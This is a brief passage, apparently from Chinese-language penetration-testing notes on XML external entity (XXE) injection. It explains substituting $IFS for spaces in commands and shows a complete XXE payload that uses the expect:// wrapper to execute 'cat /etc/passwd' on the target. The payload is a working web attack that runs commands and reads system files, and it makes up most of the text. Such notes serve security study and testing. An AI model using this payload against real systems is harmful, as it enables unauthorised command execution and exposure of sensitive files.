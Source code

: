 ![image-20220406194739345](../../images//image-20220406194739345.png)

执行带空格的命令需要使用``$IFS''``代替空格（仅限Linux）

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY Fsec.io SYSTEM "expect://cat$IFS'/etc/passwd'" >]>
<creds>&Fsec.io;</creds>
```

![image-20220406194931486](../../images//image-20220406194931486.png)
